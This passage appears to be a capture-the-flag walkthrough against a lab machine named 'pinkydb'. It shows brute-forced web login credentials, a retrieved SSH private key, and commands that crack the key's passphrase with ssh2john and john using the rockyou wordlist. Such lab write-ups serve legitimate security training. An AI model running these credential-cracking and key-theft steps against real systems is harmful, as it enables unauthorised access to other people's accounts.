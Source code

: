 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553122612495_image.png)


Discovered the following credentials:

    \[7654\][http-post-form] host: pinkydb   login: pinky   password: Passione
    \[7654\][http-post-form] host: pinkydb   login: pinky1337   password: Hello
    \[7654\][http-post-form] host: pinkydb   login: pinkys   password: Pinky

Login webserver - `pinky:Passione`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553126306105_image.png)


Exploring Links:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553126626589_image.png)


download the ssh key locally and cat the file:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553126747599_image.png)


connecting to ssh server with private key - stefano@pinkydb

    ssh -i id_rsa stefano@pinkydb -p 4655

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553127122995_image.png)


*Key is password encrypted and we need to perform some decryption before we can use.*

Cracking the `id_rsa` with ssh2john. (for some reason my current version of `ssh2john` was not functioning but I did find an python version of the binary that functions the same off github. 
Link: https://github.com/koboi137/john/blob/master/ssh2john.py

error i was seeing:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553135441934_image.png)


run the conversion of private key to something we can use to crack:

    python ssh2john.id_rsa

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553135396158_image.png)


great, now just append it to a file with `python ssh2john.py id_rsa > id_rsajohn` 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553135556721_image.png)


Crack converted private SSH key with `john`:

    john --wordlist=/usr/share/wordlists/rockyou.txt id_rsajohn

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553135620339_image.png)

